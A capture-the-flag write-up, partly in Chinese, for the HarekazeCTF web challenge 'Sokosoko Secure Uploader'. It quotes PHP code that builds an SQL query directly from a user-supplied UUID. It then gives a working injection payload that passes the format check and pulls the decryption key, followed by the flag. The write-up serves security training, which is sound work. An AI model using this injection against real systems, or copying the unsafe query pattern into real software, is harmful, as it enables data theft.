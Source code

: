 # Sokosoko Secure Uploader
## Challenge details
|       Event        | Challenge | Category | Points  |
|:-------------------|:----------|:---------|:-------:|
| HarekazeCTF        |Sokosoko Secure Uploader    |Web   |100      |

### Description
> I encrypted my file by using this service. Attachment is the encrypted file, but I accidentally deleted the UUID of the file. All I remember is the UUID starts with 9e5a :(
### Attachments
> [flag.png.encrypted](flag.png.encrypted)  
> [src.zip](src.zip)    
## Solution
在function.php中，对uuid的判断函数为
```php
function is_uuid($str) {
  if (strlen($str) !== 36) {
    return false;
  }
  if ($str[8] !== '-' or $str[13] !== '-' or $str[18] !== '-' or $str[23] !== '-') {
    return false;
  }
  return true;
}
```
之后访问数据库的命令为
```php
$pdo = new PDO('sqlite:key.db');
$stmt = $pdo->query("SELECT key FROM decryption_key WHERE id = '$uuid'");
$res = $stmt->fetch();
```
所以可以通过构造uuid来解密文件  
将uuid设置为'or id/*-1111-1111-1111-*/like '9e5%
成功解密图片
HareKazeCTF{k41k4n_j1kk4n_j1n615uk4n}